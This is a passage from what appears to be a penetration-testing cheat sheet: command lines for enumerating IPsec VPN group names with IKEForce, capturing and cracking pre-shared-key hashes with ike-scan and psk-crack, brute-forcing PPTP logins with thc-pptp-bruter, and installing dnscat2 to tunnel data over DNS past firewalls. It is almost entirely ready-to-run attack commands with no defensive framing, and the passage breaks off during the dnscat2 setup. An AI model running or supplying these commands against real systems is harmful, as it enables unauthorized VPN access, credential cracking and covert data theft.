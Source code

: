 # Step 2: Enumerate group name with IKEForce
./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic

# Step 3: Use ike-scan to capture the PSK hash
ike-scan –M –A –n example_group -P hash-file.txt TARGET-IP

# Step 4: Use psk-crack to crack the PSK hash
psk-crack hash-file.txt

#Some more advanced psk-crack options below:
pskcrack
psk-crack -b 5 TARGET-IPkey
psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
psk-crack -d /path/to/dictionary-file TARGET-IP-key



# PPTP Hacking
==============
# Identifying PPTP, it listens on TCP: 1723

# NMAP PPTP Fingerprint:
nmap –Pn -sV -p 1723 TARGET(S)

# PPTP Dictionary Attack
thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst



# DNS Tunneling
===============
# Tunneling data over DNS to bypass firewalls.
# dnscat2 supports “download” and “upload” commands for getting files (data and programs) to and from the target machine.

# Attacking Machine
# Installtion:
apt-get update
apt-get -y install ruby-dev git make g++
gem install bundler
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
bundle install
